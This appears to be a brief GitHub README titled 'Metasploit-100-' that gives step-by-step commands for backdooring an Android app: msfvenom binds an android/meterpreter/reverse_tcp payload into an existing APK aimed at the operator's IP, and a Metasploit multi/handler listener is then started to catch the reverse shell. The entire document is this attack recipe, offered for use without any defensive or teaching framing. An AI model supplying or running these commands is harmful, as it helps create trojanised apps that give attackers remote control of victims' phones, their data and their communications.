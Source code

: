 # Metasploit-100-

bash setup.sh

## paylod:-


msfvenom -x (bind apk name) -p android/meterpreter/reverse_tcp LHOST=(your ip) LPORT=4444 R > /sdcard/apk_name.apk




## RAN WAY


msfconsole

use multi/handler 

set payload android/meterpreter/reverse_tcp 

set lhost (your ip) 

set lport (port number)

run
